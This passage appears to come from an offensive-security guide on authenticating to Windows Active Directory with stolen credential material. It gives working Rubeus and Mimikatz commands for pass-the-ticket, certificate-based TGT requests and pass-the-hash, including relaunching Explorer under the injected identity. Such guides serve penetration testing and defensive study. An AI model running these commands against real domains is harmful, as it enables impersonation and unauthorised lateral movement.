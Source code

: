 ```powershell
Rubeus.exe createnetonly /domain:ad.bitsadmin.com /username:User1 /password:dummy /ticket:C:\tmp\User1.kirbi /program:powershell.exe /show
```

**Respawn Windows Explorer**

The following command-line kills all `explorer.exe` instances and then relaunches it with a new logon session with the TGT injected into it.

```powershell
taskkill.exe /F /IM explorer.exe & Rubeus.exe createnetonly /domain:ad.bitsadmin.com /username:User1 /password:dummy /ticket:C:\tmp\User1.kirbi /program:"C:\Windows\explorer.exe /NoUACCheck"
```

## Certificate
For certificate-based authentication again Rubeus can be used. To make the authentication work, the `/domain` parameter needs to be provided with the FQDN of the target domain. Moreover, the `/password` parameter is required in case the `.pfx` file is password-protected. If the certificate has been imported in the offensive Windows' store, instead of providing the path to the certificate, the certificate thumbprint can be used also be used as parameter for the `/certificate` parameter. Like with the TGT/TGS authentication, because the Negotiate authentication package is used, the authentication might still fall back on NTLM authentication where the same implications apply as with the TGT/TGT authentication.

**PowerShell**

The following command-line can be used to launch PowerShell making use of certificate-based authentication.

```powershell
Rubeus.exe asktgt /domain:ad.bitsadmin.com /user:User1 /certificate:C:\tmp\User1.pfx /password:PFXPass1! /createnetonly:powershell.exe /show
```

**Respawn Windows Explorer**

The following command-line kills all `explorer.exe` instances and then relaunches it with a new logon session which uses certificate-based authentication.

```powershell
taskkill.exe /F /IM explorer.exe & Rubeus.exe asktgt /domain:ad.bitsadmin.com /user:Install /certificate:C:\tmp\User1.pfx /password:PFXPass1! /createnetonly:"C:\Windows\explorer.exe /NoUACCheck" /show
```

## NTLM hash
An NTLM hash, also known as RC4 hash, can both be used for Kerberos and NTLM authentication. To support the use for both occasions, a combination of Mimikatz and Rubeus is used where Mimikatz takes care of the NTLM authentication while Rubeus takes care of the Kerberos authentication.

**PowerShell**

The Rubeus command-line to launch PowerShell using a NTLM hash which supports both Kerberos authentication and NTLM fallback looks as follows.

```powershell
set domain=ad.bitsadmin.com
set user=User1
set rc4=BEB7BFC1623370D9CD19DEB26C69097B

mimikatz.exe privilege::debug "sekurlsa::pth /domain:%domain% /user:%user% /ntlm:%rc4% /run:"""powershell.exe -NoExit -Command """""""""Rubeus.exe asktgt /domain:%domain% /user:%user% /rc4:%rc4% /ptt""""""""""""" exit
```

